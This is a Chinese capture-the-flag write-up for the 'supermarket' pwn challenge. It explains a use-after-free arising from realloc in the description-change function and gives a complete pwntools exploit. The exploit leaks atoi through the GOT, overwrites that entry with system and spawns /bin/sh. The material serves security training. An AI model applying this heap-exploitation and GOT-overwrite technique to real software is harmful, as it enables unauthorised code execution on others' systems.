

# 标题

> ciscn-online-supermarket

## **原理**

利用UAF

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**

这道题的漏洞如下图所示：



realloc 函数可以重新分配内存空间。我们可以简单看一下 源码：

```
char *realloc(ptr, newSize)
    char     *ptr;      /* Ptr to currently allocated block.  If
                 * it's 0, then this procedure behaves
                 * identically to malloc. */
    unsigned int newSize;   /* Size of block after it is extended */
{
    unsigned int curSize;
    char *newPtr;

    if (ptr == 0) {
       return malloc(newSize);
    }
    curSize = Mem_Size(ptr);
    if (newSize <= curSize) {
       return ptr;
    }
    newPtr = malloc(newSize);
    bcopy(ptr, newPtr, (int) curSize);
    free(ptr);
    return(newPtr);
}

```

由上可知，newSize大于 旧size时，会返回一个新ptr。

但是 在 change_describe 方法中，并没有对新size大于旧size的情况进行过滤，不会更新size大小和指针。

```
new("bill", 100, 0x80, "A"*0x80)
new("john", 200, 0x18, "A"*0x18)

# 我们给bill修改了 describe 的大小，这样之前的describe堆块就会被 free掉 ，然后重新分配给merry。
change_des("bill", 0xb0, "") 
new("merry", 200, 0x50, "A"*0x7)
```

接下来就是简单的泄漏 和修改了。

完整exp：

```
from pwn import *

p = process("./task_supermarket")
elf = ELF("./task_supermarket")
libc = ELF("./libc.so.6")
context.log_level = 'debug'

def new(name, price, size, des):
    p.recvuntil("your choice>> ")
    p.sendline("1")
    p.recvuntil("name:")
    p.sendline(name)
    p.recvuntil("price:")
    p.sendline(str(price))
    p.recvuntil("descrip_size:")
    p.sendline(str(size))
    p.recvuntil("description:")
    p.sendline(des)

def delete(name):
    p.recvuntil("your choice>> ")
    p.send("2\n")
    p.recvuntil("name:")
    p.sendline(name)

def list_all():
    p.recvuntil("your choice>> ")
    p.send("3\n")

def change_price(name, price):
    p.recvuntil("your choice>> ")
    p.sendline("4")
    p.recvuntil("name:")
    p.sendline(name)
    p.recvuntil("or rise in:")
    p.sendline(str(price))

def change_des(name, size, des):
    p.recvuntil("your choice>> ")
    p.sendline("5")
    p.recvuntil("name:")
    p.sendline(name)
    p.recvuntil("descrip_size:")
    p.sendline(str(size))
    p.recvuntil("description:")
    p.sendline(des)

free_got = elf.got['free']
atoi = elf.got['atoi']
puts = elf.plt['puts']

gdb.attach(p)
new("bill", 100, 0x80, "A"*0x80)
new("john", 200, 0x18, "A"*0x18)
change_des("bill", 0xb0, "")
new("merry", 200, 0x50, "A"*0x7)

payload = "merry\x00" + "A"*(0x1c-6-4-4) + p32(0x50) + p32(atoi) + p16(0x59)
change_des("bill", 0x80, payload)
list_all()
p.recvuntil("merry: price.")
p.recv(16)
real_atoi = u32(p.recv(4))
system = real_atoi - (libc.symbols['atoi'] - libc.symbols['system'])

log.info("real_atoi: %s" % hex(real_atoi))
log.info("system: %s" % hex(system))
change_des("merry", 0x50, p32(system))

p.recvuntil("your choice>> ")
p.sendline("/bin/sh\x00")
p.interactive()
```

## **参考阅读**

